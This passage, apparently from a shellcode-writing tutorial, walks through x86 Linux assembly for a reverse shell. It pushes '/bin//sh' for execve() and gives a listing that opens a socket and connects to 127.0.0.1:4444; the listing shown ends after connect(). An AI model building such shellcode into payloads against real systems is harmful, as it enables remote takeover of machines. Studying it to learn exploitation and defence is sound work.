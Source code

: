 The last snippet of code will be the same as the bind shell as well, loading `/bin//sh` onto the stack backwards (due to the stack growing downwards, and adding the extra `/` to make it easier to manager hex values). See below the execution of `execve()` and the last bit of the shellcode:

``nasm
	xor eax, eax
	xor edx, edx	
	push eax	; Zero out top of stack
	push 0x68732f2f	; Push the end of "/bin//sh"
	push 0x6e69622f	; Push the beginning of "/bin//sh"

	mov ebx, esp	; Put the pointer of "/bin//sh" on the stack into ebx

	mov al, 11	; sycall execve()

	int 0x80
```


Below is the final product of our shellcode:


```nasm
global _start




section .text
	_start:

	; set needed registers to zero

	xor eax, eax
	xor ebx, ebx
	xor ecx, ecx
	xor edx, edx



	; Start of socket call

	mov bl, 2	; Setting AF_INET
	mov cl, 1	; Setting SOCK_STREAM
	mov dl, 6	; Setting protocol

	mov ax, 359	; syscall socket()

	int 0x80	; execute socket()


	; Start of connect call

	mov ebx, eax	; Putting sockfd socket value into ebx
	push 0x0101017f	; Setting address to connect to as "127.0.0.1" onto the stack
	push word 0x5c11	; Setting the port to connect to as "4444" onto the stack
	push word 2		; Setting "AF_INET" onto the stack
	
	mov ecx, esp	; Put the memory address of the top of the stack into ecx, which will contain all the parameters needed for the connect syscall

	mov dl, 16	; Size of the IP address, found running test.c

	mov ax, 362	; sycall connect()

	int 0x80	; execute connect()
```